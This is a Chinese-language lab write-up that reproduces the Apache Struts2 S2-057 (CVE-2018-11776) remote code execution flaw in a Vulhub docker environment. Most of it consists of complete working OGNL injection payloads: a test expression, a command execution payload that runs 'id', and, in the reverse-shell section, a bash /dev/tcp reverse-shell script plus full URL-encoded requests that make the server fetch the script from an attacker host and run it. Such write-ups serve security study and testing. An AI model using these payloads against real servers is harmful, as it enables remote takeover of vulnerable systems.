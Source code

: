 # Struts2 S2-057 远程代码执行漏洞 CVE-2018-11776

## 漏洞描述

漏洞详情：

- https://cwiki.apache.org/confluence/display/WW/S2-057
- https://lgtm.com/blog/apache_struts_CVE-2018-11776
- https://xz.aliyun.com/t/2618
- https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg

## 影响版本

影响版本：Struts <= 2.3.34、Struts 2.5.16

## 环境搭建

Vulhub执行以下命令启动s2-057测试环境：

```
docker-compose build
docker-compose up -d
```

启动环境后，访问`http://your-ip:8080/orders.xhtml`即可看到showcase页面。

## 漏洞复现

S2-057 需要以下条件：

- `alwaysSelectFullNamespace`为真 
- 操作元素没有设置命名空间属性，或者使用通配符

命名空间会被用户从uri传递过来，解析为OGNL表达式，最终导致远程代码执行漏洞。

有效载荷：

```
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```

![image-20220302133213897](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021332977.png)

可以看到Location头中已经返回了233*233的结果。

使用来自[S2-057 漏洞分析](https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg)的有效Payload和 POC：

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

成功执行`id`命令：

![image-20220302134417065](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021344166.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
GET /struts2-showcase/$%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3D%23request%5B%27struts.valueStack%27%5D.context).(%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D).(%23ou%3D%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27wget%20192.168.174.128/shell.sh%27)).(%40org.apache.commons.io.IOUtils%40toString(%23a.getInputStream()))%7D/actionChain1.action HTTP/1.1
```

执行shell.sh文件的命令为：

```
bash shell.sh
```

执行shell.sh文件的Payload为：

```
GET /struts2-showcase/$%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3D%23request%5B%27struts.valueStack%27%5D.context).(%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D).(%23ou%3D%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27bash%20shell.sh%27)).(%40org.apache.commons.io.IOUtils%40toString(%23a.getInputStream()))%7D/actionChain1.action HTTP/1.1
```

成功接收反弹shell：

![image-20220302134534862](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021345950.png)


